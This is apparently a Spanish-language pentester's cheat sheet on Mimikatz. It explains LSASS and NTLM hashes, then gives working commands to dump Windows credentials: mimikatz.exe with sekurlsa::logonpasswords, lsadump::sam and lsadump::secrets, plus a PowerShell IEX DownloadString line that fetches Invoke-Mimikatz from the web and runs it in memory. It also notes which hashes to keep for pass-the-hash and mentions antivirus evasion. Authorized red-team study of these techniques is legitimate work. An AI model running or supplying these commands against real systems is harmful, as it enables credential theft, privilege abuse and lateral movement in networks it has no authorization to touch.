 # Mimikatz 

Tags: #Mimikatz #Windows  #LSASS

Mimikatz es una herramienta de seguridad de código abierto desarrollada por Benjamin Delpy (gentilkiwi), ampliamente reconocida en la comunidad de ciberseguridad. Es comúnmente empleada en actividades de Red Teams y evaluaciones de seguridad en sistemas Windows. Su objetivo principal es analizar y aprovechar diversas vulnerabilidades de seguridad en este sistema operativo, siendo especialmente conocida por su capacidad para recuperar contraseñas en texto plano, hashes NTLM y tickets Kerberos directamente desde la memoria. Además, permite realizar técnicas como pass-the-hash, pass-the-ticket y generar tickets Kerberos dorados o plateados, lo que resulta invaluable para movimientos laterales dentro de entornos Active Directory (AD).

Dentro de la sesión de Meterpreter usaremos la extensión de Kiwi para dumpear passwords. Pero debemos de ser 'NT Authority\\System'

# LSASS

El servicio Local Security Authority Subsystem Service (LSASS) en sistemas operativos Windows es crucial para la administración de la política de seguridad y maneja la autenticación de usuarios en el sistema local. Para un pentester, el entendimiento profundo de LSASS y cómo interactúa con los componentes de seguridad de Windows es fundamental para la evaluación de la postura de seguridad de un sistema y la ejecución de ciertas formas de ataques. Aquí hay varios aspectos de LSASS que son de especial interés:

```bash 
# Función y Rol de LSASS

- Autenticación: LSASS es responsable de la autenticación de usuarios para las sesiones de inicio de sesión en una computadora.
- Creación de Tokens: Cuando se autentica a un usuario, LSASS genera un "token de acceso" que contiene los derechos y privilegios del usuario.
- Almacenamiento de Credenciales: En el proceso de LSASS, las credenciales, como hashes de contraseñas y tickets Kerberos, son almacenados en la memoria.
    

# Ataques y Tácticas Asociadas con LSASS
- Dumping de Credenciales: Las herramientas de extracción de credenciales como Mimikatz explotan el acceso a LSASS para obtener hashes de contraseñas y tickets de autenticación.
- Pass-the-Hash / Pass-the-Ticket: Las credenciales extraídas pueden ser usadas para realizar estos ataques, permitiendo a los atacantes autenticarse como otro usuario sin conocer la contraseña en texto claro.
- Inyección de Código: Los atacantes pueden intentar inyectar código malicioso en el proceso LSASS para interceptar credenciales o elevar privilegios.
    

Técnicas de Protección y Evasión
- Protección de Memoria: Los pentesters deben estar al tanto de las características como Credential Guard que protegen la memoria de LSASS.
- Detección de Anomalías: La manipulación de LSASS puede disparar alertas en soluciones de detección de intrusiones y en los sistemas de protección contra malware.
- Técnicas de Evasión: Para evitar la detección, los pentesters pueden necesitar usar técnicas de evasión o desarrollar nuevas herramientas que no estén firmadas por firmas de AV.
```

## Hash NTLM

```bash 
El hash NTLM (NT LAN Manager) es una función hash utilizada por Microsoft para almacenar contraseñas de usuario. Es un método de cifrado que ha sido utilizado en varios protocolos de autenticación de Microsoft a lo largo de los años, incluidos los protocolos de autenticación de red como NTLMv1 y NTLMv2.

Características y detalles sobre el hash NTLM:

1. Forma de Creación: El hash NTLM se crea tomando la contraseña del usuario, convirtiéndola a Unicode y luego aplicando una función hash MD4.
    
2. No tiene SALT: A diferencia de otros métodos de almacenamiento de contraseñas, el hash NTLM no utiliza un "salto" (valor aleatorio agregado para hacer que el hashing sea más seguro). Esto lo hace vulnerable a ataques de fuerza bruta y a ataques de tabla arco iris, donde los atacantes usan tablas precomputadas para buscar rápidamente el valor original de un hash.
    
3. Uso en Protocolos: Aunque NTLM ha sido reemplazado en gran medida por métodos más seguros como Kerberos en entornos modernos de Active Directory, todavía se encuentra en muchas redes debido a la retrocompatibilidad o configuraciones heredadas.
    
4. Vulnerabilidades: Debido a sus debilidades inherentes y la falta de características de seguridad modernas, NTLM es susceptible a una variedad de ataques, como el mencionado ataque de tabla arco iris, ataques de relevo NTLM, y otros.
    
5. Recomendación: Debido a las debilidades conocidas asociadas con NTLM, se recomienda deshabilitar su uso siempre que sea posible, en favor de protocolos de autenticación más seguros como Kerberos.
```

## Extracción de credenciales con binario

* [Mimikatz](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/kali/master/x64?ref_type=heads)

```bash 
❯ net user                            # Miramos todos los usuarios existentes y sus grupos
❯ net user /domain                    # Identificar los usuarios del dominio
```

```powershell
# Ejecutar Mimikatz como 'Administrador'
❯ .\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords' 'lsadump::sam' 'lsadump::secrets' exit
```

```powershell
❯ Invoke-mimikatz -DumpCreds          # Dumpear las credenciales locales, obtener el NTLM y hacer un PtH
```

## Extracción de credenciales con Powershell 

```powershell 
# Descargamos el binario del repositorio
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');

# Utilizamos la funcion para ejecutar Mimikatz
❯ Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets"'
```

```bash 
1. 'privilege::debug': Este comando en Mimikatz solicita privilegios de depuración para el proceso Mimikatz. Los privilegios de depuración son necesarios para acceder a ciertas áreas de la memoria del sistema operativo y realizar operaciones que normalmente están restringidas.
    
2. 'token::elevate': Este comando intenta elevar los privilegios de Mimikatz. En el contexto de Mimikatz, esto generalmente significa obtener un token de seguridad de un proceso con privilegios más altos, permitiendo que Mimikatz opere con esos privilegios elevados.
    
3. 'sekurlsa::logonpasswords': Este comando extrae las contraseñas y otros datos de autenticación de la memoria del sistema, específicamente desde la seguridad de Kerberos, SSP, msv1_0, entre otros. Utiliza el módulo sekurlsa de Mimikatz para acceder a la información almacenada por el proceso LSASS (Local Security Authority Subsystem Service).

	Nota: 
	* Mirar si la 'session' = 'Service from 0', si es asi guardar toda la salida del usuario ya que se puede utilizar
	* Si al final del 'username' hay un '$' quiere decir que es un objeto de tipo computador
	* Valores importantes a guardar 'SID, Username, Domain, NTLM, SHA1'
    
4. 'lsadump::sam': Este comando extrae las credenciales almacenadas en la base de datos SAM (Security Accounts Manager). La SAM contiene las credenciales de todos los usuarios locales del sistema y se utiliza generalmente para obtener hashes de contraseñas de cuentas locales.

	Nota: 
	* Guardar los hashes 'NTLM' del usuario 'Administrator'
    
5. 'lsadump::secrets': Este comando se utiliza para extraer "secretos" almacenados por el sistema, como claves de acceso y otros datos sensibles, que pueden estar almacenados en el registro o en el servicio LSASS.
```